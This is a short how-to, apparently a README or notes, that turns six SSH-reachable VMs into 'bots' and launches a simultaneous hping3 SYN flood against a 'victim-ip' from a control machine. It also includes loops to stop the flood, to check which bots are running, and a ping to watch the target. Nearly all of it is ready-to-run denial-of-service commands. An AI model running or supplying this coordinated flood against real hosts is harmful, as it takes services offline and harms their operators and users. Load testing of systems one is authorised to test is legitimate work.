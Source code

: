
---

1. **Generate SSH key on control VM (if not done):**

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa -N ""
```

2. **Copy SSH key to each VM (replace user and IPs):**

```bash
ssh-copy-id user@vm1-ip
ssh-copy-id user@vm2-ip
ssh-copy-id user@vm3-ip
ssh-copy-id user@vm4-ip
ssh-copy-id user@vm5-ip
ssh-copy-id user@vm6-ip
```

3. **Install hping3 on all VMs (run once per VM):**

```bash
ssh user@vm1-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm2-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm3-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm4-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm5-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm6-ip 'sudo apt-get update && sudo apt-get install -y hping3'
```

4. **Prepare a bash one-liner to start hping3 DoS simultaneously from control VM:**

Create a file `vms.txt` listing IPs of all bots:

```
vm1-ip
vm2-ip
vm3-ip
vm4-ip
vm5-ip
vm6-ip
```

5. **Run simultaneous DoS from all bots:**

```bash
target_ip="victim-ip"
for ip in $(cat vms.txt); do
  ssh user@$ip "nohup sudo hping3 -S --flood $target_ip > /dev/null 2>&1 &"
done
```

6. **To stop all attacks:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "sudo pkill hping3"
done
```

7. **Check if hping3 is running on bots:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "pgrep hping3 && echo 'Running on $ip' || echo 'Not running on $ip'"
done
```

8. **Optional: Monitor attack from control VM by pinging target:**

```bash
ping -c 5 victim-ip
```

---
